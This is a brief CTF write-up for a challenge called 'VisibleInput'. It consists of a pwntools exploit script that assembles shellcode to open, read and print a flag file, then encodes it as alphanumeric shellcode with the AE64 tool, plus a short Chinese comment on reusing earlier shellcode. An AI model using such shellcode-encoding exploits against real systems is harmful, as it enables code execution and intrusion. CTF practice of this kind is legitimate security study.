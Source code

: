 # VisibleInput

```py
from pwn import *
from ae64 import AE64 # https://github.com/veritas501/ae64
context.arch="amd64"
p=process("./pwn")
shellcode = shellcraft.read(3, 0x20240100, 0x40)
shellcode += shellcraft.write(1, 0x20240100, 0x40)
shellcode=b"\x90\x90\x48\xB8\x2E\x2F\x66\x6C\x61\x67\x00\x00\x50\x48\x89\xE7\x31\xD2\x31\xF6\x6A\x02\x58\x0F\x05"+asm(shellcode)
p.send(AE64().encode(shellcode, 'rdx', 0, 'fast'))
p.interactive()
```
直接抄了shellcode_revenge的shellcode然后找个工具将其加工成alphanumeric shellcode。要是没有工具这题肯定不止150